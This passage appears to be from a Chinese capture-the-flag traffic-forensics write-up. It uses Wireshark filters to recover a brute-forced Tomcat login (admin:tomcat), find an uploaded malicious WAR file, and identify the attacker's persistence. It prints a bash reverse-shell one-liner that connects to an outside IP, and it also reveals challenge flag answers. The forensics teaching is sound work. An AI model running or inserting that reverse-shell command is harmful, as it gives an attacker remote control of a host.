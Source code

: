 **5、攻击者拿到特定目录的线索后，想要通过暴力破解的方式登录，请通过分析流量找到攻击者登录成功的用户名和密码？flag 格式：flag{root-123}**

没有认证或认证不成功会返回 401，认证标识 Authorization: Basic

```bash
http contains "Authorization: Basic"
```

一个一个包找，知道返回包是 200 的时候才是认证成功的

```bash
YWRtaW46dG9tY2F0
admin:tomcat
```

**6、攻击者登录成功后，先要建立反弹 shell，请分析流量提交恶意文件的名称？flag 格式：flag{114514.txt}**

上传就是 POST 设置过滤器

```bash
http.request.method==POST
```

就一个流，跟进去就可以看到

JXQOZY.war

**7、攻击者想要维持提权成功后的登录，请分析流量后提交关键的信息？flag 提示，某种任务里的信息**

```bash
/bin/bash -c 'bash -i >& /dev/tcp/14.0.0.120/443 0>&1'
```

传完
